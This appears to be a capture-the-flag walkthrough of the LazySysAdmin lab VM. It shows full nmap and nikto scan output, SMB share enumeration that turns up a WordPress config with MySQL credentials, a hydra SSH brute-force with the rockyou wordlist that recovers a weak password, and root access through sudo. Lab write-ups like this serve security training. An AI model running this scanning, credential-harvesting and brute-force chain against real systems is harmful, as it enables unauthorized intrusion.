 # LazySysAdmin VM Walkthrough


Netdiscover result:

       Currently scanning: 192.168.48.0/16   |   Screen View: Unique Hosts           
                                                                                       
         3 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 126               
         _____________________________________________________________________________
           IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
         -----------------------------------------------------------------------------
         192.168.42.129  9a:d1:53:35:56:b5      2      84  Unknown vendor              
         192.168.42.55   08:00:27:c1:be:89      1      42  PCS Systemtechnik GmbH 
         
Nmap results:         

        $sudo nmap -sS -sV -p- -A 192.168.42.55
        
        
        Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-02 18:16 IST
        Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
        Service scan Timing: About 83.33% done; ETC: 18:16 (0:00:02 remaining)
        Nmap scan report for 192.168.42.55
        Host is up (0.00045s latency).
        Not shown: 65529 closed tcp ports (reset)
        PORT     STATE SERVICE     VERSION
        22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
        | ssh-hostkey: 
        |   1024 b538660fa1eecd41693b82cfada1f713 (DSA)
        |   2048 585a6369d0dadd51ccc16e00fd7e61d0 (RSA)
        |   256 6130f3551a0ddec86a595bc99cb49204 (ECDSA)
        |_  256 1f65c0dd15e6e421f2c19ba3b655a045 (ED25519)
        80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
        |_http-server-header: Apache/2.4.7 (Ubuntu)
        |_http-title: Backnode
        | http-robots.txt: 4 disallowed entries 
        |_/old/ /test/ /TR2/ /Backnode_files/
        |_http-generator: Silex v2.2.7
        139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
        445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
        3306/tcp open  mysql       MySQL (unauthorized)
        6667/tcp open  irc         InspIRCd
        | irc-info: 
        |   server: Admin.local
        |   users: 1
        |   servers: 1
        |   chans: 0
        |   lusers: 1
        |   lservers: 0
        |   source ident: nmap
        |   source host: 192.168.42.230
        |_  error: Closing link: (nmap@192.168.42.230) [Client exited]
        MAC Address: 08:00:27:C1:BE:89 (Oracle VirtualBox virtual NIC)
        Device type: general purpose
        Running: Linux 3.X|4.X
        OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
        OS details: Linux 3.2 - 4.9
        Network Distance: 1 hop
        Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Host script results:
        | smb-os-discovery: 
        |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
        |   Computer name: lazysysadmin
        |   NetBIOS computer name: LAZYSYSADMIN\x00
        |   Domain name: \x00
        |   FQDN: lazysysadmin
        |_  System time: 2023-06-02T22:46:38+10:00
        |_clock-skew: mean: -3h20m00s, deviation: 5h46m24s, median: 0s
        | smb2-security-mode: 
        |   311: 
        |_    Message signing enabled but not required
        |_nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
        | smb-security-mode: 
        |   account_used: guest
        |   authentication_level: user
        |   challenge_response: supported
        |_  message_signing: disabled (dangerous, but default)
        | smb2-time: 
        |   date: 2023-06-02T12:46:38
        |_  start_date: N/A

        TRACEROUTE
        HOP RTT     ADDRESS
        1   0.45 ms 192.168.42.55

        OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 23.67 seconds
        
        
use the link to get some direct        
        
        http://192.168.42.55/robots.txt
        
        
        User-agent: *
        Disallow: /old/
        Disallow: /test/
        Disallow: /TR2/
        Disallow: /Backnode_files/       
Busting directories with nikto:

        
        $nikto -h http://192.168.42.55                                                             
        
        - Nikto v2.5.0
        ---------------------------------------------------------------------------
        + Target IP:          192.168.42.55
        + Target Hostname:    192.168.42.55
        + Target Port:        80
        + Start Time:         2023-06-02 18:28:05 (GMT5.5)
        ---------------------------------------------------------------------------
        + Server: Apache/2.4.7 (Ubuntu)
        + /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
        + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
        + No CGI Directories found (use '-C all' to force check all possible dirs)
        + /test/: Directory indexing found.
        + /robots.txt: Entry '/test/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
        + /old/: Directory indexing found.
        + /robots.txt: Entry '/old/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
        + /Backnode_files/: Directory indexing found.
        + /robots.txt: Entry '/Backnode_files/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
        + /robots.txt: contains 4 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
        + Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
        + /: Server may leak inodes via ETags, header found with file /, inode: 8ce8, size: 5560ea23d23c0, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
        + OPTIONS: Allowed HTTP Methods: OPTIONS, GET, HEAD, POST .
        + /apache/: Directory indexing found.
        + /apache/: This might be interesting.
        + /old/: This might be interesting.
        + /phpmyadmin/changelog.php: Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.22.
        + /phpmyadmin/changelog.php: Uncommon header 'x-ob_mode' found, with contents: 0.
        + /test/: This might be interesting.
        + /info.php: Output from the phpinfo() function was found.
        + /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information. See: CWE-552
        + /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
        + /info.php?file=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
        + /wordpress/wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version.
        + /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.
        + /wordpress/: Drupal Link header found with value: <http://192.168.42.55/wordpress/index.php?rest_route=/>; rel="https://api.w.org/". See: https://www.drupal.org/
        + /wordpress/: A Wordpress installation was found.
        + /phpmyadmin/: phpMyAdmin directory found.
        + /wordpress/wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
        + /wordpress/wp-login.php?action=register: Wordpress registration enabled.
        + /wordpress/wp-content/uploads/: Directory indexing found.
        + /wordpress/wp-content/uploads/: Wordpress uploads directory is browsable. This may reveal sensitive information.
        + /wordpress/wp-login.php: Wordpress login found.
        + 8258 requests: 0 error(s) and 32 item(s) reported on remote host
        + End Time:           2023-06-02 18:28:11 (GMT5.5) (6 seconds)
        ---------------------------------------------------------------------------
        + 1 host(s) tested
        




Opening the wordpress in the browser results,
![image](https://github.com/keerthiprabup/VM/assets/116485904/dc99ae95-dc38-4b07-bef4-f893c641b2ed)

        
        
        
        
        
        

We could see smb is hosted in the vm by nmap scan

So we can try connecting to it with smbclient command:

         $smbclient -L 192.168.42.55
        
Results:

![image](https://github.com/keerthiprabup/VM/assets/116485904/9af721da-33cc-464c-8dd0-f551c574e8e7)


Getting into the sharename share$ using the command:

Boom! we got a smb client!
![image](https://github.com/keerthiprabup/VM/assets/116485904/c33db267-e129-4ef0-b5e0-3f1cee52006c)

We could find a config file inside the dir:

       
       /wordpress/

![image](https://github.com/keerthiprabup/VM/assets/116485904/0c1f9579-8b2a-4eed-9b16-c4557b30a0a9)


Get the config file to your local system using get command.
![image](https://github.com/keerthiprabup/VM/assets/116485904/f60d82dd-1311-4f52-b664-19ca36f21c76)

We got some mysql credentials from the file:
![image](https://github.com/keerthiprabup/VM/assets/116485904/1d69af55-92ee-42b0-8d70-a04bfc3483ed)


Using hydra we could perform a bruteforce attack on the ssh server using the username that we got from the wordpress:togie

Results:


        # hydra -l togie -P /usr/share/wordlists/rockyou.txt ssh://192.168.42.55/ -t 4
        Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

        Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-02 19:02:38
        [WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
        [DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
        [DATA] attacking ssh://192.168.42.55:22/
        [22][ssh] host: 192.168.42.55   login: togie   password: 1234


As we got the username and the password, we could access the ssh server by logging into it:
![image](https://github.com/keerthiprabup/VM/assets/116485904/5aa57962-26d1-4ec4-a2b1-f74c04edf299)

The user is in the sudoers file so that the user can perform sudo command.

Use the command $sudo su to switch to the root user:

![image](https://github.com/keerthiprabup/VM/assets/116485904/1ab80933-988b-40d9-b1d4-c34cff68a60e)

We have a file in the root directory:

![image](https://github.com/keerthiprabup/VM/assets/116485904/f8a7f435-6035-4f3e-b8ca-3d22a0198938)
